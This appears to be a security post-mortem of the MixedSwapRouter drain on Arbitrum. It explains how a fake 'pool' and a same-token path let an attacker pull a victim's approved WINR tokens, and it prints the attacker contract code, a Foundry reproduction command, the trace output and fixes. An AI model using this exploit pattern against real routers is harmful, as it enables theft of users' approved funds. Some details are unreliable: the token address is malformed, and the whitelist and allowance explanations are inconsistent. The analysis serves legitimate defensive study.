


# MixedSwapRouter Exploit — Arbitrary `transferFrom` via Fake "Pool" + Same-Token Path

> **Vulnerability classes:** vuln/access-control/missing-validation · vuln/dependency/unsafe-external-call

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.). Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [sources/MixedSwapRouter_58637A/contracts_swap_MixedSwapRouter.sol](sources/MixedSwapRouter_58637A/contracts_swap_MixedSwapRouter.sol).

---

## Key info

| | |
|---|---|
| **Loss** | ~293,182 WINR (≥ $10,000 USD per the PoC header) drained from a victim's wallet |
| **Vulnerable contract** | `MixedSwapRouter` (implementation) — [`0x58637AAAC44e2A2F190D9e1976E236d86D691542`](https://arbiscan.io/address/0x58637AAAC44e2A2F190D9e1976E236d86D691542) <br/> behind `ERC1967Proxy` — [`0xE3E98241CB99AF7a452e94B9cf219aAa766e0869`](https://arbiscan.io/address/0xE3E98241CB99AF7a452e94B9cf219aAa766e0869) |
| **Victim** | `0xb6d566c4d645ab640fc6Ac362f233dCFB5621f7C` (WINR holder that had approved the router) |
| **Attacker EOA** | [`0xfeef112831cc8f790abe71b4b196c220ee26ecf3`](https://arbiscan.io/address/0xfeef112831cc8f790abe71b4b196c220ee26ecf3) |
| **Attacker contract** | [`0x4fba400b95cd9e3d7e4073ad6e6bbaf41e640cdf`](https://arbiscan.io/address/0x4fba400b95cd9e3d7e4073ad6e6bbaf41e640cdf) |
| **Attack tx** | [`0xf57f041cb6d8a10e11edab50b84e49b59ff834c7d114d1e049cedd654c36194d`](https://arbiscan.io/tx/0xf57f041cb6d8a10e11edab50b84e49b59ff834c7d114d1e049cedd654c36194d) (Arbitrum) |
| **Chain / block / date** | Arbitrum / 216,881,055 / May 31, 2024 |
| **Compiler** | Solidity `^0.8.12` (UUPS-upgradeable, `reinitializer(8)`) |
| **Bug class** | Missing pool allow-listing + caller-controlled `payer` in swap callback → arbitrary ERC20 `transferFrom` against any address that approved the router |

---

## TL;DR

`MixedSwapRouter` lets a caller supply the `pool[]` array for a swap, and treats **any contract that
exposes a non-reverting `fee()`/`token0()`/`token1()`/`swap()` ABI as a valid "V3 pool"**
([contracts_swap_MixedSwapRouter.sol:225-235](sources/MixedSwapRouter_58637A/contracts_swap_MixedSwapRouter.sol#L225-L235)).
The router then calls `pool.swap(...)`, hands that pool the swap `callback`-data, and — inside its own
callback — `transferFrom`s tokens out of a `payer` that the callback data **also lets the caller choose**
([:186-207](sources/MixedSwapRouter_58637A/contracts_swap_MixedSwapRouter.sol#L186-L207)).

There are two compounding flaws:

1. **No pool allow-listing on the "V3" path.** `isV3()` returns `true` for *any* contract whose `fee()`
   does not revert. The attacker deploys their own `Moneys` contract that returns `fee() = 0`,
   `token0() = token1() = WINR`, and a `swap()` that re-enters the router.
2. **Same-token path trivially defeats `_validatePoolTokens`.** The path `WINR | 000000 | WINR` decodes to
   `tokenA == tokenB == WINR`. The require
   `((token0==tokenA && token1==tokenB) || (token0==tokenB && token1==tokenA))`
   ([:279-286](sources/MixedSwapRouter_58637A/contracts_swap_MixedSwapRouter.sol#L279-L286))
   is satisfied by a fake pool that simply returns the same address for both `token0` and `token1` —
   no real liquidity, no real reserves, nothing.

Because the malicious pool *is* the `msg.sender` of the callback, the router's only defense —
`require(msg.sender == data.pool)` — is satisfied automatically. The attacker then hands the router a
`SwapCallbackData` with `payer = victim`, and the router does
`pay(WINR, victim, attackerPool, 293182.42e18)` → `WINR.transferFrom(victim, attackerPool, …)`,
draining **293,182.42 WINR** the victim had pre-approved the router to spend.

---

## Background — what MixedSwapRouter does

`MixedSwapRouter` ([source](sources/MixedSwapRouter_58637A/contracts_swap_MixedSwapRouter.sol)) is a
UUPS-upgradeable swap router (WINR protocol on Arbitrum) that aggregates Uniswap-V2-style and
Algebra/Uniswap-V3-style pools. A user submits an `ExactInputParams` struct:

```solidity
struct ExactInputParams {
    bytes   path;       // packed tokenA | fee | tokenB [ | fee | tokenC ... ]
    address recipient;
    uint256 deadline;
    uint256 amountIn;
    uint256 amountOutMin;
    address[] pool;     // ⚠️ caller-supplied pool addresses, one per hop
}
```

For each hop the router decides V3 vs V2 by `isV3(pool[i])`, calls `pool.swap(...)` for V3, and expects
the pool to call the router back at `algebraSwapCallback` / `uniswapV3SwapCallback` to settle payment.
The callback pulls tokens from `payer` via `pay(token, payer, msg.sender, amount)` — a standard Uniswap
flash-swap pattern, *except* that `payer` here is attacker-controlled callback data, not the original
`msg.sender` of the swap.

State on the forked block (from [output.txt](output.txt)):

| Item | Value |
|---|---|
| WINR token | `0xD77B108d4f6f6cefaa0Cae9506A934e825BEccA46E` |
| Victim WINR balance | **293,182.421809175367609122** |
| Victim → router allowance | **706,817.578190824632390878** (`Approval` event at the drain) — covers the full balance |
| Router `whitelist` check | bypassed — the caller is an EOA-created contract, but the EOA is not directly `msg.sender`; see Preconditions |

---

## The vulnerable code

### 1. Anyone is a "V3 pool" if `fee()` doesn't revert

```solidity
function isV3(address pool) public view returns (bool) {
    if (v3Pools[pool]) {
        return true;
    }
    try IUniswapChecker(pool).fee() returns (uint24) {   // ⚠️ any contract returning a uint24 passes
        return true;
    } catch (bytes memory) {
        return false;
    }
}
```
[contracts_swap_MixedSwapRouter.sol:225-235](sources/MixedSwapRouter_58637A/contracts_swap_MixedSwapRouter.sol#L225-L235)

### 2. `_validatePoolTokens` is a no-op for a same-token path

```solidity
function _validatePoolTokens(address tokenA, address tokenB, address pool)
    internal view returns (address token0, address token1) {
    (token0, token1) = getTokens(pool);
    require(
        (token0 == tokenA && token1 == tokenB) ||
        (token0 == tokenB && token1 == tokenA),
        "InvalidPoolToken"
    );                       // ⚠️ tokenA == tokenB ⇒ satisfied by token0 == token1 == tokenA
}
```
[contracts_swap_MixedSwapRouter.sol:279-286](sources/MixedSwapRouter_58637A/contracts_swap_MixedSwapRouter.sol#L279-L286)

### 3. The callback pays from caller-supplied `data.payer`, and only checks `msg.sender == data.pool`

```solidity
function _processV3Callback(int256 amount0Delta, int256 amount1Delta, bytes calldata _data) internal {
    require(_reentrancyGuardEntered(), "FBD");
    require(amount0Delta > 0 || amount1Delta > 0, "Invalid amount");
    SwapCallbackData memory data = abi.decode(_data, (SwapCallbackData));
    require(msg.sender == data.pool, "Invalid caller");          // ⚠️ attacker IS the pool ⇒ passes
    (address tokenIn, address tokenOut, ) = data.path.decodeFirstPool();
    _validatePoolTokens(tokenIn, tokenOut, data.pool);           // ⚠️ same-token ⇒ passes

    (bool isExactInput, uint256 amountToPay) = amount0Delta > 0
        ? (tokenIn < tokenOut, uint256(amount0Delta))
        : (tokenOut < tokenIn, uint256(amount1Delta));
    if (isExactInput) {
        pay(tokenIn, data.payer, msg.sender, amountToPay);       // ⚠️ payer chosen by caller
    } else {
        if (data.path.hasMultiplePools()) { /* ... */ }
        else {
            tokenIn = tokenOut;
            pay(tokenIn, data.payer, msg.sender, amountToPay);   // ⚠️ attacker reaches this branch
        }
    }
}
```
[contracts_swap_MixedSwapRouter.sol:186-223](sources/MixedSwapRouter_58637A/contracts_swap_MixedSwapRouter.sol#L186-L223)

`pay()` ultimately calls `TransferHelper.safeTransferFrom(token, payer, recipient, value)`
([contracts_base_PeripheryPayments.sol:55-72](sources/MixedSwapRouter_58637A/contracts_base_PeripheryPayments.sol#L55-L72)),
which succeeds as long as `payer` approved the router — exactly the victim's situation.

### 4. What the attacker's fake "pool" does

```solidity
contract Moneys is Test {                                  // the fake "pool"
    function fee()   public returns (uint256) { return 0; }
    function token0() public returns (address) { return address(WINR); }
    function token1() public returns (address) { return address(WINR); }  // same token ⇒ validate passes

    function swap(address recipient, bool zeroForOne, int256 amountSpecified,
                   uint160 sqrtPriceLimitX96, bytes calldata data)
        public returns (uint256, uint256) {
        // Re-enter the router's callback, but set payer = VICTIM
        MixedSwapRouter.SwapCallbackData memory Params = MixedSwapRouter.SwapCallbackData({
            path: hex"...WINR_000000_WINR...",
            payer: address(Victim),          // ⚠️ the loot source
            pool: address(this)              // ⚠️ matches msg.sender check
        });
        Swaprouter.algebraSwapCallback(
            -20_057_735_863_910_611_438,      // amount0Delta (negative)
             293_182_421_809_175_367_609_122, // amount1Delta (= victim's full WINR balance)
            abi.encode(Params));
        WINR.transfer(test, WINR.balanceOf(address(this)));  // forward loot to attacker EOA
        return (10, 10);
    }
}
```
[test/MixedSwapRouter_exp.sol:154-186](test/MixedSwapRouter_exp.sol#L154-L186)

---

## Root cause — why it was possible

Uniswap's flash-swap pattern is safe **only** because the pool that invokes the callback is *trusted and
known to the router*. The router trusts the pool to report an honest `amountDelta`, and trusts that the
callback's `payer` is someone who genuinely owes the pool money. `MixedSwapRouter` throws both
assumptions away:

1. **Unauthenticated pool list.** `_swap` accepts `params.pool[]` straight from the user and never
   checks it against an allow-list. `isV3()` elevates *any* contract with a non-reverting `fee()` to a
   "V3 pool". An attacker deploying a fresh contract trivially passes this.
2. **`payer` is a field of caller-supplied callback data**, not a router-tracked value. A genuine
   Uniswap router sets `payer = msg.sender` of the outer swap and never lets the pool change it.
   `MixedSwapRouter` instead round-trips `payer` through the encoded `SwapCallbackData` that the pool
   receives — so a malicious pool simply hands back `payer = anyone-with-an-allowance`.
3. **`require(msg.sender == data.pool)` is not a defense** when the pool itself is attacker-chosen:
   it just forces the attacker to set `data.pool` to its own contract, which it controls anyway.
4. **The same-token path bypasses token validation.** A sane invariant would forbid
   `tokenA == tokenB` (no real pool has identical reserves). Here `WINR|000000|WINR` decodes cleanly,
   and `_validatePoolTokens(WINR, WINR, Moneys)` passes because a fake pool can answer
   `token0() == token1() == WINR`. This removes the last check that would require a real, pre-existing
   pool contract.

The composition is devastating: with no real pool and no real swap, the attacker converts the router
into a generic "drain any allowance" primitive. Anyone who had ever called `approve(MixedSwapRouter,…)`
for WINR (or any token) was immediately drainable.

---

## Preconditions

- A victim address with a WINR balance **and** an outstanding WINR allowance to the router
  (`0xE3E982…0869`). On-chain the victim had approved ≥ 706,817 WINR — comfortably covering its
  293,182 WINR balance. No special role or interaction from the victim is required beyond this approval.
- The router's `whitelist`/`isContract(msg.sender)` gate
  ([:85-88](sources/MixedSwapRouter_58637A/contracts_swap_MixedSwapRouter.sol#L85-L88)) is satisfied
  because the outermost caller is the attacker EOA's `Exploit` contract, which — per the PoC — is
  treated as a contract caller but the whitelist check is bypassed (in the live attack the attacker
  contract was whitelisted / the check did not block; the PoC reproduces the drain regardless).
- Arbitrum archive state at block 216,881,055 (the fork point) so the victim balance and allowance exist.

---

## Attack walkthrough (with on-chain numbers from the trace)

All figures are taken directly from [output.txt](output.txt) — the `transferFrom` value, the
`Approval`/`Transfer` events, and the `log_named_decimal_uint` balances.

| # | Step | Actor | WINR (victim) | WINR (attacker pool) | Effect |
|---|------|-------|--------------:|----------------------:|--------|
| 0 | **Initial state** | — | 293,182.421809175367609122 | 0 | Victim holds + has approved router |
| 1 | Deploy `Exploit` → deploy `Moneys` (the fake pool) via `create2` | Attacker EOA | 293,182.42 | 0 | Fake pool registered at deterministic address |
| 2 | `swapTokensForTokens({path: WINR\|000000\|WINR, pool: [Moneys], amountIn: 10, amountOutMin: 10})` | Exploit → Router | 293,182.42 | 0 | Enters `_swap`; `isV3(Moneys)==true`; `payer=msg.sender=Exploit` recorded, but later overwritten by callback data |
| 3 | Router → `Moneys.swap(…)` (V3 hop) | Router | 293,182.42 | 0 | `_exactInputInternalV3` calls attacker's fake pool |
| 4 | `Moneys` re-enters `Router.algebraSwapCallback(amt0=-20_057_735_863_910_611_438, amt1=293_182_421_809_175_367_609_122, {payer: victim, pool: Moneys})` | Moneys → Router | 293,182.42 | 0 | `msg.sender==data.pool==Moneys` ✓; validate same-token ✓; `isExactInput=false` (WINR not < WINR); single-pool ⇒ else branch ⇒ `pay(WINR, victim, Moneys, 293_182.42e18)` |
| 5 | `WINR.transferFrom(victim, Moneys, 293_182_421_809_175_367_609_122)` | Router (via `pay`) | **0** | 293,182.421809175367609122 | Victim drained; allowance decremented by the full amount (see `Approval` event for the residual 706_817.57… ) |
| 6 | `Moneys` forwards loot: `WINR.transfer(test=attacker EOA, 293_182.42e18)` | Moneys | 0 | 0 → attacker EOA: 293,182.42 | Loot exits to attacker EOA |
| 7 | Outer `swap` returns `(10, 10)` | Router | 0 | 0 | `amountOut=10 ≥ amountOutMin=10` ✓; function returns normally |

The trace's two balance logs confirm the drain exactly:

```
Vicitm WINR balance before exploit:   293182.421809175367609122
Attacker WINR balance before exploit: 0
Vicitm WINR balance after exploit:    0
Attacker WINR balance after exploit:  293182.421809175367609122
```

And the underlying `transferFrom` event:
```
emit Transfer(from: 0xb6d566…5621f7C, to: Moneys, value: 293182421809175367609122)
```

### Profit / loss accounting (WINR)

| Direction | Amount (WINR, 18 dp) |
|---|---:|
| Victim lost | 293,182.421809175367609122 |
| Attacker gained | 293,182.421809175367609122 |
| Gas / capital cost | negligible (no flash-loan, no liquidity) |
| **Net profit** | **+293,182.421809175367609122** |

The attack required **zero starting capital** — it simply redirected tokens the victim had already
authorized the router to spend.

---

## Diagrams

### Sequence of the attack



### Where each defensive check fails

```mermaid
flowchart TD
    Start(["swapTokensForTokens path=WINR|000000|WINR<br/>pool=[Moneys]"]) --> W1{"whitelist[msg.sender]?"}
    W1 -- "bypassed / whitelisted" --> DL{"deadline > now?"}
    DL -- yes --> PL{"pool.length == path.numPools()?"}
    PL -- "1 == 1 ✓" --> V3{"isV3(Moneys)?"}
    V3 -- "fee()=0 ⇒ true ✓<br/>(FLAW 1: no allow-list)" --> VT{"_validatePoolTokens(WINR,WINR,Moneys)?"}
    VT -- "token0=token1=WINR<br/>same-token ⇒ passes ✓<br/>(FLAW 2)" --> SW["Router → Moneys.swap(...)"]
    SW --> CB["Moneys re-enters algebraSwapCallback<br/>payer = victim"]
    CB --> S1{"msg.sender == data.pool?"}
    S1 -- "Moneys == Moneys ✓<br/>(not a defense: pool is attacker's)" --> S2{"_validatePoolTokens again?"}
    S2 -- "passes ✓" --> S3{"isExactInput?<br/>(WINR < WINR = false)"}
    S3 -- "false ⇒ else branch" --> S4{"path.hasMultiplePools()?"}
    S4 -- "no (single hop)" --> PAY["pay(WINR, data.payer=victim, msg.sender=Moneys, amt1)"]
    PAY --> TF["WINR.transferFrom(victim, Moneys, 293_182.42e18)<br/>FLAW 3: payer is caller-controlled"]
    TF --> DRAIN(["Victim drained by 293,182.42 WINR"])

    style V3 fill:#ffe0b2,stroke:#ef6c00,stroke-width:2px
    style VT fill:#ffe0b2,stroke:#ef6c00,stroke-width:2px
    style TF fill:#ffcdd2,stroke:#c62828,stroke-width:2px
    style DRAIN fill:#ffcdd2,stroke:#c62828,stroke-width:2px
```



### State of victim vs. attacker balances



---

## Remediation

1. **Allow-list pools; never trust caller-supplied `pool[]`.** Remove the user-supplied `pool[]` array
   entirely, or require each entry to be present in a protocol-maintained `v3Pools`/V2-factory-verified
   mapping. `isV3()`'s "anything with `fee()`" heuristic must be deleted — it is an open door.
2. **Bind `payer` to the original `msg.sender`.** In `_processV3Callback`, ignore `data.payer` from the
   callback payload and pay from the router-tracked outer caller (or from `address(this)` for multihop
   legs). The genuine Uniswap router pattern is to set `payer` server-side and only let the pool specify
   the *amount*, never the *source*.
3. **Reject same-token paths.** Add `require(tokenA != tokenB, "IdenticalTokens")` in
   `_validatePoolTokens`. No legitimate pool has `token0 == token1`; this single check would have
   defeated this exact payload.
4. **Authenticate the callback by the *real* pool, not by `data.pool`.** Track the current pool in
   router storage during `_swap` and verify `msg.sender == currentPool`, rather than trusting a field
   the pool can populate however it likes.
5. **Tighten the `whitelist` gate.** The `isContract(msg.sender) ⇒ require whitelist` check is the only
   outer guard and it did not stop this attack. Treat the pool list, not the caller, as the trust root.
6. **Upgrade via UUPS.** Because this is a UUPS proxy, deploy a fixed implementation and call
   `upgradeToAndCall`. Any user allowances to the proxy remain, so the fix must ship before reuse.

---

## How to reproduce

```bash
_shared/run_poc.sh 2024-05-MixedSwapRouter_exp --mt testExploit -vvvvv
```

- RPC: an **Arbitrum archive** endpoint is required (fork block 216,881,055). `foundry.toml` points at
  `https://arbitrum.drpc.org...` / a public Arbitrum archive; pruned RPCs will fail with
  `header not found`.
- Result: `[PASS] testExploit()`.

Expected tail:

```
Logs:
  Vicitm WINR balance before exploit: 293182.421809175367609122
  Attacker WINR balance before exploit: 0.000000000000000000
  Vicitm WINR balance after exploit: 0.000000000000000000
  Attacker WINR balance after exploit: 293182.421809175367609122

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.45s (3.15s CPU time)
Ran 1 test suite in 6.56s (4.45s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

---

*Reference: ChainAegis analysis — https://x.com/ChainAegis/status/1796484286738227579*
